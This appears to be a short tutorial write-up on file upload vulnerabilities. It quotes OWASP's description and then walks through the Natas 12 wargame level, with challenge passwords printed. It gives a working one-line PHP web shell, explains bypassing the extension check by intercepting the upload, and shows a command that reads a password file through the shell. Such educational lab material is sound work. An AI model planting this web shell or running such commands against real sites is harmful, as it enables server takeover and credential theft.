

# File upload vulnerability

## OWASP Description
Uploaded files represent a significant risk to applications. The first step in many attacks is to get some code to the system to be attacked. Then the attack only needs to find a way to get the code executed. Using a file upload helps the attacker accomplish the first step.

The consequences of unrestricted file upload can vary, including complete system takeover, an overloaded file system or database, forwarding attacks to back-end systems, client-side attacks, or simple defacement. It depends on what the application does with the uploaded file and especially where it is stored.

There are really two classes of problems here. The first is with the file metadata, like the path and file name. These are generally provided by the transport, such as HTTP multi-part encoding. This data may trick the application into overwriting a critical file or storing the file in a bad location. You must validate the metadata extremely carefully before using it.

The other class of problem is with the file size or content. The range of problems here depends entirely on what the file is used for. See the examples below for some ideas about how files might be misused. To protect against this type of attack, you should analyse everything your application does with files and think carefully about what processing and interpreters are involved.

## shell.php
```php
<?php
echo system($_GET["cmd"]);
?>
``` 


### Explore it yourself, make a PHP file to test the vulnerability locally in your system through localhost with the code mentioned above.
## Let's try a challenge

### NATAS 12 :
 - #### USERNAME : natas12
 - #### PASSWORD : EDXp0pS26wLKHZy1rDBPUZk0RKfLGIR3 
 
 

You can see that we can upload a file here. Let's try to upload a file so that we can get a shell on the website.

Make the shell.php file. We can pass the commands through the URL.


Now let's upload the PHP file. But during the upload, we should change the .jpeg format to .php by intercepting the request.


Once you open the link generated by the site, we can start exploiting by giving the commands we desired. Once we get the shell we can do various things.
</br></br>
The password for the next level will be in the folder /etc/natas_webpass/
where natas12 is the file containing the password.

## so...
```
.php?cmd=cat  /etc/natas_webpass/natas12
```

Gives the password : jmLTY0qiPZBbaKc9341cqPQZBJv7MQbY
</br></br>


## This is a basic example of File upload vulnerability.


